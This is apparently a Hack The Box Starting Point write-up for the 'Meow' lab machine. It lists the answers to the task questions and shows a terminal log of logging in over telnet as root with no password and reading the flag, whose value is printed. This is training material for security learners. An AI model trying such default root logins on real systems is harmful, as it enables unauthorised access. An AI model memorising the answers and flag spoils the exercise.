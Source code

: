 ```yaml
---
layout: post
title: "Meow"
date: 2022-05-12
image: ../../assets/img/Posts/meow.png
categories: [HTB, Starting Point, Tier 0]
tags: [linux, Telnet]
---
```


#### What does the acronym VM stand for?

`Virtual Machine`

#### What tool do we use to interact with the operating system in order to start our VPN connection?

`terminal`

#### What service do we use to form our VPN connection?

`openvpn`

#### What is the abreviated name for a tunnel interface in the output of your VPN boot-up sequence output?

`tun`

#### What tool do we use to test our connection to the target?

`ping`

#### What is the name of the script we use to scan the target's ports?

`nmap`

#### What service do we identify on port 23/tcp during our scans?

`telnet`

#### What username ultimately works with the remote management login prompt for the target?

`root`

#### Submit root flag

```bash
➜  kali telnet 10.129.199.11 23
Trying 10.129.199.11...
Connected to 10.129.199.11.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 22 Dec 2021 12:21:06 PM UTC

  System load:  0.0               Processes:             139
  Usage of /:   41.7% of 7.75GB   Users logged in:       0
  Memory usage: 4%                IPv4 address for eth0: 10.129.199.11
  Swap usage:   0%


75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Meow:~# pwd
/root
root@Meow:~# ls -la
total 36
drwx------  5 root root 4096 Jun 18  2021 .
drwxr-xr-x 20 root root 4096 Jul  7 11:02 ..
lrwxrwxrwx  1 root root    9 Jun  4  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3132 Oct  6  2020 .bashrc
drwx------  2 root root 4096 Apr 21  2021 .cache
-rw-r--r--  1 root root   33 Jun 17  2021 flag.txt
drwxr-xr-x  3 root root 4096 Apr 21  2021 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r--r--  1 root root   75 Mar 26  2021 .selected_editor
drwxr-xr-x  3 root root 4096 Apr 21  2021 snap
root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
root@Meow:~#

```

`HTB{b40abdfe23665f766f9c61ecba8a4c19}`
